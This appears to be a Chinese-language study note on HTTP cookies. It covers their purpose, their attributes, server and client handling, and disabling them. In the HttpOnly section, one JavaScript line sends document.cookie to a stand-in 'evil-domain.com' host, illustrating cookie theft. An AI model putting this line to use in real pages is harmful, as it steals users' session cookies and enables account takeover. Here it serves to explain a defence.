 # cookie

## 学习资料

- [mdn http cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [cookie百度百科](https://baike.baidu.com/item/cookie/1119?fr=aladdin)
- [阮一峰cookie](http://javascript.ruanyifeng.com/bom/cookie.html)



## 总结

**1. 为什么要有cookie？**

因为http是无状态的，即使用户登陆后，它还是不知道用户是否已经登录。服务端可以通过cookie保存用户信息到客户端，客户端发请求时总是会附带上这段信息。

**2. cookie的常用场景？**

- 对话管理：保存登录、购物车等信息
- 个性化：主题、字体、背景色
- 追踪：记录和分析用户行为

**3. cookie的特点？**

- 容量小、保存的个数有限制：不同浏览器不一样，一般是小于4kb，个数不超过30个。超出后cookie将被忽略，不会被设置。
- 域名、端口相同，则可以共享cookie，注意不要求协议相同。

**4. cookie的属性有哪些？**

- Expires：cookie的过期时间，过期后，浏览器将删除这个cookie。它的值是UTC格式。可以使用Date.prototype.toUTCString()转换格式。如果不设置设个属性或设为null，则是session cookie。另外浏览器是根据本地时间决定cookie是否过期，所以cookie没办法保证是在服务器指定时间过期。

```javascript
document.cookie = 'age=12;expires=' + new Date('2019-9-1')
// "age=12;expires=Sun Sep 01 2019 00:00:00 GMT+0800 (CST)"

// 要加时区才行
document.cookie = 'age=12;expires=' + new Date('2019-9-1').toUTCString()
// "age=12;expires=Sat, 31 Aug 2019 16:00:00 GMT"
```

- Max-age：从现在开始过多少秒后cookie过期，比如一年是`60 * 60 * 24 * 365`。如果同时指定了Expires和Max-Age，则Max-Age优先。如果没有指定，则是session cookie。
- Domain：指定发http请求时，哪些域名要附带这个cookie，如果没有指定，则默认是当前的一级域名，比如www.xx.com 会设为xx.com。所以访问xx.com的任何子域，http请求都会带这个cookie。如果Domain不属于当前域名，浏览器会拒绝这个cookie。当前发送 Cookie 的域名的一部分。
- Path：Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致，是绝对路径。
- Secure：只能服务端写入。https下才会发送cookie。如果是http，浏览器会忽略从服务端发送来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。
- HttpOnly：只能服务端写入。指定该 Cookie 无法通过 JavaScript 脚本拿到。通过document.cookie、XMLHttpRequest对象和Request API都获取不到，只有浏览器发出http请求时，才会带上该Cookie，该属性可以防止第三方恶意代码获取cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

**5. 服务端操作cookie**

服务端要设置cookie，需要在http头里设置`Set-Cookie`字段，可以包含多个。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

除了值之外，还可以附加cookie的属性，一个Set-Cookie字段里面，可以同时包括多个属性，没有次序的要求。

```
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly

// 包括多个属性
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的key、domain、path和secure都匹配。举例来说，如果原始的 Cookie 是用如下的Set-Cookie设置的。

```
Set-Cookie: key1=value1; domain=example.com; path=/blog
```

改变上面这个 Cookie 的值，就必须使用同样的Set-Cookie。

```
Set-Cookie: key1=value2; domain=example.com; path=/blog
```

只要有一个属性不同，就会生成一个全新的 Cookie，而不是替换掉原来那个 Cookie。
Set-Cookie: key1=value2; domain=example.com; path=/
上面的命令设置了一个全新的同名 Cookie，但是path属性不一样。下一次访问example.com/blog的时候，浏览器将向服务器发送两个同名的 Cookie。

```
Cookie: key1=value1; key1=value2
```

上面代码的两个 Cookie 是同名的，匹配越精确的 Cookie 排在越前面。


**6、客户端操作cookie**

客户端发送请求时，每次都会把cookie放在http头的Cookie字段中发送给服务端。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=zhangsan1; age=12; Webstorm-dbb44fa0=e4a0db2b-0f80-47e9-acd1-4688f2e4ace9; optimizelyEndUserId=oeu1508308702253r0.1659170844255642;
```

服务端收到cookie后，无法知道cookie的过期时间，可cookie是哪个域名设置的，一级还是二级。

通过document.cookie可以获取cookie。注意，需要以服务器网页方式打开，不能以本地`file://`形式。

```javascript
document.cookie   // "name=zs;age=12"
```

![](./_img/getcookie.png)

设置cookie，注意等号两边不要有空格，而且必须对分号、逗号和空格进行转义（它们都不允许作为 Cookie 的值），这可以用encodeURIComponent方法做到。

document.cookie读写行为的差异（一次可以读出全部 Cookie，但是只能写入一个 Cookie），与 HTTP 协议的 Cookie 通信格式有关。浏览器向服务器发送 Cookie 的时候，Cookie字段是使用一行将所有 Cookie 全部发送；服务器向浏览器设置 Cookie 的时候，Set-Cookie字段是一行设置一个 Cookie。


```javascript
// 设置cookie
document.cookie = encodeURIComponent('username') + '=' + encodeURIComponent('jero')

// 删除cookie,通过设置过期时间
document.cookie = encodeURIComponent('username') + '=' +
                  encodeURIComponent('cover') + 
                  ';domain=ke.qq.com' + 
                  ';expires=' + new Date(0)  // 1970.1.1
```

cookie的属性一旦设置，就不能读取，比如上面代码中读取不到expires和domain。

可以使用`[js-cookie](https://github.com/js-cookie/js-cookie)`库来简单的进行操作。

**7、禁用cookie**

浏览器如果禁用了cookie，则不能再设置cookie，请求也不再向服务器发送cookie。查看cookie是否被禁用，可以通过`navigator.cookieEnabled`，它是只读的。

chrome禁用cookie的方法是，`设置 -> 内容设置 -> cookie`。禁用后`navigator.cookieEnabled`的返回值是false。此时之前设置的cookie不动，之后不能再操作cookie了（读取、新增、修改、删除都不行）。如果再启用cookie，之前设置的cookie还是有效的。

cookie分为临时cookie（session cookie）和持久cookie，没有设置过期时间的是临时cookie，浏览器关闭时自动清除。

3、domain可以设置成上级的域名，比如三级域名设置成2级域名
4、path，如果设置了path，只有在那个path才有这个cookie，其它path没有
5、在请求数据时，cookie会自动带上
6、cookie出现的原因是http是无状态的，不知道用户是否登录。
7、客户端和服务端都能读取和操作cookie。

**8. 什么是签名cookie？**

## 深入

- [http state management mechanism](https://tools.ietf.org/html/rfc6265)
